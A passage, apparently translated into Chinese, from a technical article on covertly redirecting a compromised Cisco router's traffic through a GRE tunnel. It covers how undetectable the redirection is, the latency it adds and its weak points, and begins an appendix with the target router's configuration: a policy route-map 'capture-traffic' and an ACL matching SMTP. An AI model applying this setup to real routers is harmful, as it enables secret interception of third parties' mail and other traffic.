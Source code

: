 0x05 结论及讨论
=====

1.  **透明度**
    
    这种数据拦截的方法对于这个系统中的终端用户是完全透明的（见下面的部分），标准的traceroute追踪不能发现数据在GRE隧道重定向而带来的额外路由跳数，因为traceroute的数据包并没有被策略路由（即上文中提到的策略路由）所匹配。
    
    有这种可能，但是比较困难，就是编写一个基于TCP 协议，使用25号端口以及利用递增TTL值的traceroute程序，去发现已经增加的额外路由跳数。
    
    当然，通过检查目标路由器的配置来发现（是否被攻击）会更简单。
    
2.  **延迟考虑**
    
    在通过中间路由器路由器捕获重定向的流量会增加网络延迟，这种延迟的增加可以表示为：
    
    `2n + m`
    
    n代表流量从目标路由器到中间路由器间所花费的时间，m代表中间路由器（以及Unix工作站）处理这条流量所带来的时间延迟。
    
    在实验室场景中，发现m的值大约有10ms的延迟 - 详见附录F。
    
    n的值显得要更大一些，这种（流量重定向）技术应被限制在类似如SMTP, DNS域传送等一类流量非严格时间敏感的场景中使用。
    
3.  **对流量进一步解码**
    
    从被捕获流量中提取有用数据的联系就交给读者了，在标准的Unix工具集中，例如strings以及od命令都可以方便地处理这些数据。
    
4.  **实用性**
    
    在现实情况下使用这种技术，应该注意中间路由器（以及在场景2中的Unix工作站）可能会导致单点通信故障，如果任何一台设备出现故障，那么在3.7章节中的访问控制列表所匹配的流量（即目标流量）将不能被正常转发。
    

0x06 附录
=====

1.  **附录A - 目标路由器完整配置（Target Router）**
    
    ```
    !
    version 12.2
    service timestamps debug uptime
    service timestamps log uptime
    no service password-encryption
    !
    hostname Target
    !
    no logging console
    !
    ip subnet-zero
    !
    interface Tunnel0
     ip address 192.168.5.1 255.255.255.0
     tunnel source Ethernet0/1
     tunnel destination 192.168.1.2
    !
    interface Ethernet0/0
     ip address 192.168.2.1 255.255.255.0
     ip policy route-map capture-traffic
     half-duplex
    !
    interface Ethernet0/1
     ip address 192.168.1.1 255.255.255.0
     ip policy route-map capture-traffic
     half-duplex
    !
    ip classless
    no ip http server
    no ip pim bidir-enable
    !
    access-list 101 permit tcp any any eq smtp